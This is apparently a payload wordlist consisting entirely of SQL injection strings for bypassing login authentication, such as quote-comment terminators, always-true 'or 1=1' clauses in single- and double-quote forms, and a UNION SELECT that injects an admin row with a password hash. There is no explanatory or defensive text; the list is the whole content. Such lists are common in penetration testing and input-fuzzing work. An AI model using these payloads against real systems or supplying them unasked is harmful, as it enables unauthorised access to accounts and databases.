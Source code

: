 admin' --

admin' #

admin'/*

admin' or '1'='1

admin' or '1'='1'--

admin' or '1'='1'#

admin' or '1'='1'/*

admin'or 1=1 or ''='

admin' or 1=1

admin' or 1=1--

admin' or 1=1#

admin' or 1=1/*

admin') or ('1'='1

admin') or ('1'='1'--

admin') or ('1'='1'#

admin') or ('1'='1'/*

admin') or '1'='1

admin') or '1'='1'--

admin') or '1'='1'#

admin') or '1'='1'/*

1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

admin" --

admin" #

admin"/*

admin" or "1"="1

admin" or "1"="1"--

admin" or "1"="1"#

admin" or "1"="1"/*

admin"or 1=1 or ""="

admin" or 1=1

admin" or 1=1--

admin" or 1=1#

admin" or 1=1/*
